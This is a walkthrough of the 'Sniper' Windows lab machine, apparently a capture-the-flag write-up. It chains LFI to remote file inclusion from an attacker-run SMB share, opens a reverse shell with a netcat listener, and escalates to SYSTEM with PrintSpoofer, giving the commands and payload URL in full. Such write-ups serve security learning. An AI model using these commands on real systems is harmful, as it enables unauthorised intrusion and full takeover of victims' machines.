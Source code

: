 # Sniper - Walkthrough (Windows)

## 🧗 Initial Foothold

### 🌐 1. Web Discovery
- Found a **register** option on port 80.
- Navigated to `/blog/`, changed language from toolbar (e.g., "English").
- Observed a **`lang` parameter**, vulnerable to **LFI (Local File Inclusion)**.

### 📝 2. LFI to Read System Files
```bash
curl "http://10.129.187.42/blog/?lang=/windows/win.ini"
```

### ⚔️ 3. Remote File Inclusion via SMB
- Set up SMB server:
```bash
impacket-smbserver ninjafolder $(pwd) -smb2support
```

- Created `shell.php` with reverse shell payload (pointing back to your IP).
- Started a listener:
```bash
sudo nc -nlvp 80
```

- Triggered reverse shell:
```
http://10.129.187.42/blog/?lang=\\10.10.16.21\ninjafolder\shell.php
```

- Reverse shell opened.

---

## ⚙️ Privilege Escalation

### 🔍 1. Basic Recon
```bash
whoami
cd %TEMP%
```

### 🧨 2. PrintSpoofer
- Uploaded and executed `PrintSpoofer64.exe`:
```bash
PrintSpoofer64.exe -i -c cmd
```

- Got **NT AUTHORITY\SYSTEM** shell.

---

## 🧠 Notes

- LFI via UNC path lets Windows fetch files from your SMB share.
- SMB must be version 2+ for modern Windows machines.
- PrintSpoofer + SeImpersonatePrivilege is a golden combo when possible.
